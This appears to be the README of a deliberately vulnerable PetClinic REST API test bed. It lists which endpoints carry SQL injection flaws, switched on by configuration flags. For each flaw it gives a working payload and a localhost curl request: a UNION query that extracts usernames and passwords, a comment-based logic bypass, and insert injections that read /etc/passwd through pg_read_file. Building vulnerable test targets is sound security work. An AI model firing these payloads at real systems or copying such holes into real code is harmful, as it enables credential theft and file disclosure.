 # Endpoints vulnerable for SQLi

This project has the following endpoints:
```shell
GET: /oops
POST: /owners
GET: /owners
GET: /owners/{ownerId}
PUT: /owners/{ownerId}
DELETE: /owners/{ownerId}
POST: /owners/{ownerId}/pets
GET: /owners/{ownerId}/pets/{petId}
PUT: /owners/{ownerId}/pets/{petId}
POST: /owners/{ownerId}/pets/{petId}/visits
GET: /pettypes
POST: /pettypes
GET: /pettypes/{petTypeId}
PUT: /pettypes/{petTypeId}
DELETE: /pettypes/{petTypeId}
GET: /pets
POST: /pets
GET: /pets/{petId}
PUT: /pets/{petId}
DELETE: /pets/{petId}
GET: /visits
POST: /visits
GET: /visits/{visitId}
PUT: /visits/{visitId}
DELETE: /visits/{visitId}
GET: /specialties
POST: /specialties
GET: /specialties/{specialtyId}
PUT: /specialties/{specialtyId}
DELETE: /specialties/{specialtyId}
GET: /vets
POST: /vets
GET: /vets/{vetId}
PUT: /vets/{vetId}
DELETE: /vets/{vetId}
POST: /users
```

Out of these, some are made vulnerable to SQL injection:
```HTTP
# other table data (UNION)
GET: /vets/{vetId}
# subvert logic
GET: /specialties/{specialtyId} 
# (hidden) inserting data
POST: /vets

# Deeper insert
POST: /owners
```

To enable a vulnerability, set `vuln{x}` to `true` in `application.properties`.

## Endpoints with shallow depth
These vulnerable endpoints don't have deep code execution and all detect
multiple rows as SQLi, so payloads work internally, but don't always
return data in the HTTP response.

### Vulnerability 1: `GET /vets/{vetId}`
This vulnerability allows for UNION attacks, allowing an attacker to retrieve
data from other tables.

- operation: `getVet`
- payload: `0' UNION SELECT NULL,username,password FROM users--`

```shell
curl -i -s -k -X $'GET' \
  -H $'Host: localhost:9966' \
  $'http://localhost:9966/petclinic/api/vets/0\'%20UNION%20SELECT%20NULL,username,password%20FROM%20users--'
```

### Vulnerability 2: `GET /specialties/{specialtyId}`
This vulnerability allows for subverting logic, allowing an attacker to retrieve
hidden data. 

- operation: `getSpecialty`
- payload: `4'--`

```shell
curl -i -s -k -X $'GET' \
  -H $'Host: localhost:9966'
  $'http://localhost:9966/petclinic/api/specialties/4\'--'
```
 
### Vulnerability 3: `POST /vets`
This vulnerability allows for inserting data, allowing an attacker to create
a new user with, e.g., leaked data. 

- operation: `addVet`
- payload: `hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--`
```json
{
  "firstName": "hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--",
  "lastName": "",
  "specialties": [
    {
      "name": "hacker"
    }
  ]
}
```

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Accept: application/json'-H $'Host: localhost:9966' -H $'Content-Length: 168' \
    --data-binary $'{\x0a  \"firstName\": \"hack\', (SELECT LEFT(pg_read_file(\'/etc/passwd\'), 30)) ) RETURNING id--\",\x0a  \"lastName\": \"\",\x0a  \"specialties\": [\x0a    {\x0a      \"name\": \"hacker\"\x0a    }\x0a  ]\x0a}' \
    $'http://localhost:9966/petclinic/api/vets'
```

## Endpoints with deeper execution paths
These vulnerable endpoints deeper code path executions.

[//]: # (all detect multiple rows as SQLi, so payloads work internally, but don't always return data in the HTTP response.)

### Vulnerability 4: `POST /owners`
This vulnerability is the same as [Vulnerability 3](#vulnerability-3-post-vets), but with a deeper code paths.
This is achieved by splitting `vulnSave` into `vulnStoreNewOwner` and `vulnUpdateExistingOwner`.

- operation: `addOwner`
- payload: `hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--`
```json
{
  "firstName": "hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)), 'addr', 'city', '42') RETURNING id--",
  "lastName": "",
  "address": "",
  "city": "",
  "telephone": ""
}
```

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Accept: application/json'-H $'Host: localhost:9966' -H $'Content-Length: 168' \
    --data-binary $'{\x0d\x0a  \"firstName\": \"hack\', (SELECT LEFT(pg_read_file(\'/etc/passwd\'), 30)), \'addr\', \'city\', \'42\') RETURNING id--\",\x0d\x0a  \"lastName\": \"\",\x0d\x0a  \"address\": \"\",\x0d\x0a  \"city\": \"\",\x0d\x0a  \"telephone\": \"\"\x0d\x0a}\x0d\x0a' \
    $'http://localhost:9966/petclinic/api/owners'
```

### Vulnerability 5: `PUT /owners`
This vulnerability leverages the same injection as [Vulnerability 4](#vulnerability-4-post-owners), but with deeper code paths.
